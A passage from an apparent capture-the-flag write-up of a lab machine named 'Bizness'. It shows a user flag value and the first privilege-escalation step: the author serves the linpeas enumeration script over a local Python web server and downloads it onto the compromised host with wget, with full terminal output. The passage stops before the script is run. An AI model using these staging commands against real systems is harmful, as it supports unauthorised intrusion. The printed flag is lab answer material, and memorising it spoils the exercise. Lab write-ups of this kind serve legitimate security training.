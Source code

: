 User flag = <mark style="background-color:green;">cf63f09a58c171c627576ba93f3c4b0f</mark>

### Privilege Escalation

Many useful scripts for determining how to escalate privileges can be found online, I decided to use `linpeas`. To get `linpeas` on the remote host, after downloading the script from GitHub:

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" %}

I then spin up a web server on my local machine at port 8080:

```
-[Wed Feb 28-09:39:42]-[table@parrot]-
-[~]$ sudo python3 -m http.server 8080
[sudo] password for table: 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the remote host, I try to get the script on my local machine through that web server. Turns out, I do not have permission to `wget linpeas.sh` :

```
ofbiz@bizness:/home$ wget http://10.10.14.83:8080/linpeas.sh
wget http://10.10.14.83:8080/linpeas.sh
--2024-02-28 12:39:55--  http://10.10.14.83:8080/linpeas.sh
Connecting to 10.10.14.83:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860549 (840K) [text/x-sh]
linpeas.sh: Permission denied

Cannot write to ‘linpeas.sh’ (Permission denied).

```

I figured out this was because I was using `wget` in the `/` directory, when I only have permission to `wget` in `/home/ofbiz` directory:

```
ofbiz@bizness:~$ wget http://10.10.14.83:8080/linpeas.sh
wget http://10.10.14.83:8080/linpeas.sh
--2024-02-28 12:50:11--  http://10.10.14.83:8080/linpeas.sh
Connecting to 10.10.14.83:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860549 (840K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 840.38K   899KB/s    in 0.9s    

2024-02-28 12:50:14 (899 KB/s) - ‘linpeas.sh’ saved [860549/860549]

```

The web server shows successful `wget` of `linpeas`:

```
-[Wed Feb 28-09:39:42]-[table@parrot]-
-[~]$ sudo python3 -m http.server 8080
[sudo] password for table: 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.252 - - [28/Feb/2024 09:50:14] "GET /linpeas.sh HTTP/1.1" 200 -

```
